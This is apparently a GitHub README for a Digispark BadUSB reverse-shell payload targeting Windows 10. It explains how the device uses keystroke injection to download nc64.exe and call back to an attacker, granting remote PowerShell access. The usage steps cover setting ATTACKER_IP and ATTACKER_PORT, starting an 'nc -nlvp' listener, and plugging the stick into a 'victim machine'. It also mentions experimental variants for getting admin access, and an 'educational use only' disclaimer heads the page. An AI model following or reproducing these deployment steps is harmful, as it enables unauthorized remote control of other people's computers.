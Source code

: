 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Reverse shell, Windows 10
For more details, see our [documentations](/documentation/conops_reverse_shell.md).

Opens up Run in Windows.    
Using keystroke injections, downloads `nc64.exe` from:    
https://github.com/int0x33/nc.exe

Calls the attacker, using downloaded `nc64.exe` and opens up a powershell access from attacker.
## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define where the listener will be:
	-  `-ArgumentList \'ATTACKER_IP\', \'ATTACKER_PORT\',`
- Upload to Digispark
- Establish the listener to attacker machine:
	- `nc -nlvp ATTACKER_PORT`

- Plug in to victim machine
- **PROFIT!**
---
**Note:**   
Folders:   
- [experimental](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_revshell/experimental)
	- Contains experimental stuff, to open up the Powershell from victim as Admin user for attacker to get "instant roots"
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_revshell/old) 
	- One of the first drafts to initially getting the reverse shell to work